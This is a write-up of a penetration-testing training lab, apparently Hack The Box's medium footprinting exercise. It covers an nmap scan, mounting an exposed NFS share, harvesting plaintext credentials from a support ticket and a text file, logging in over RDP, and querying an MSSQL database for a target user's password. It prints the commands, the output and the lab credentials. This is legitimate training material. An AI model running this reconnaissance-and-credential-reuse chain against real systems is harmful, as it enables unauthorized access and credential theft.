




# Footprinting Lab - Medium

This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.

Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named `HTB` has been created. Accordingly, we need to obtain the credentials of this user as proof.

## Walkthrough

```bash
nmap -sV 10.129.202.41
PORT     STATE    SERVICE       VERSION
111/tcp  open     rpcbind?
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds?
2049/tcp open     status        1 (RPC #100024)
3389/tcp open     ms-wbt-server Microsoft Terminal Services
5001/tcp filtered commplex-link
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We found that the port for file sharing is open 111,2049(NFS) & 139,445(smb), first lets enumerate the NFS with nmap script

```bash
sudo nmap -sV -p111,2049 --script=nfs-showmount 10.129.202.41 -oN nfs.txt
PORT     STATE SERVICE  VERSION
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
| nfs-showmount: 
|_  /TechSupport 
2049/tcp open  nlockmgr 1-4 (RPC #100021)
```

Now we try to mount the shared nfs folder to see whats inside

```bash
sudo mount -t nfs 10.129.202.41:/TechSupport /mnt/nfs
ls -al #find the file that have non zero byte size
cat ticket4238791283782.txt
Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,. 
 
So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11    
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15    
16    userpass {      
17      withUserNameSupport=false
18      sendWelcomeEmail=true
19      enableGravatarSupport=true
20      signupSkipLogin=true
21      tokenDuration=60
22      tokenDeleteInterval=5
23      minimumPasswordLength=8
24      enableTokenJob=true
25      hasher=bcrypt
26      }
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }   

```

We found credential for login `alex:lol123!mD`

From the previous nmap scan we also found that the port for remote desktop is open, so we try the found credential above here

```bash
xfreerdp /u:alex /p:'lol123!mD' /v:10.129.202.41
```

after succesfull login, open the MSSQL Server Management Studio

we dont have the credential for this so we have to search the filesystem a bit

```bash
C:\Users\alex>dir
 Volume in drive C has no label.
 Volume Serial Number is 2683-3D37

 Directory of C:\Users\alex

11/10/2021  04:25 PM    <DIR>          .
11/10/2021  04:25 PM    <DIR>          ..
11/10/2021  06:19 AM    <DIR>          3D Objects
11/10/2021  06:19 AM    <DIR>          Contacts
11/10/2021  03:34 PM    <DIR>          Desktop
11/10/2021  08:12 AM    <DIR>          devshare
11/10/2021  04:25 PM    <DIR>          Documents
11/10/2021  06:19 AM    <DIR>          Downloads
11/10/2021  06:19 AM    <DIR>          Favorites
11/10/2021  06:19 AM    <DIR>          Links
11/10/2021  06:19 AM    <DIR>          Music
11/10/2021  06:19 AM    <DIR>          Pictures
11/10/2021  06:19 AM    <DIR>          Saved Games
11/10/2021  06:19 AM    <DIR>          Searches
02/12/2024  10:14 PM    <DIR>          TechSupport
11/10/2021  06:19 AM    <DIR>          Videos
               0 File(s)              0 bytes
              16 Dir(s)  24,967,946,240 bytes free
```

&#x20;devshare looks interesting, lets see whats inside

```bash
C:\Users\alex>cd devshare

C:\Users\alex\devshare>dir
 Volume in drive C has no label.
 Volume Serial Number is 2683-3D37

 Directory of C:\Users\alex\devshare

11/10/2021  08:12 AM    <DIR>          .
11/10/2021  08:12 AM    <DIR>          ..
11/10/2021  08:12 AM                16 important.txt
               1 File(s)             16 bytes
               2 Dir(s)  24,959,533,056 bytes free

C:\Users\alex\devshare>type important.txt
sa:87N1ns@slls83
C:\Users\alex\devshare>
```

it looks like the credentials for the MSSQL, now we try to login

<figure><figcaption><p>Login page</p></figcaption></figure>

<figure><figcaption><p>Failed message</p></figcaption></figure>

Still cannot login, maybe we try to run the app as admin and use the previously found credentials

<figure><figcaption><p>Run as admin</p></figcaption></figure>

It works, now lets see if we can connect

<figure><figcaption><p>Login Page</p></figcaption></figure>

success, now we are inside this company databases

```sql
#first right click the WINMEDIUM, then select new query
#dont forget to change the tab from master database to accounts
SELECT * FROM .devsacc # to show all
SELECT * FROM .devsacc WHERE name = 'HTB' ORDER BY name; # to sort it
```

and we done it, congrats :).
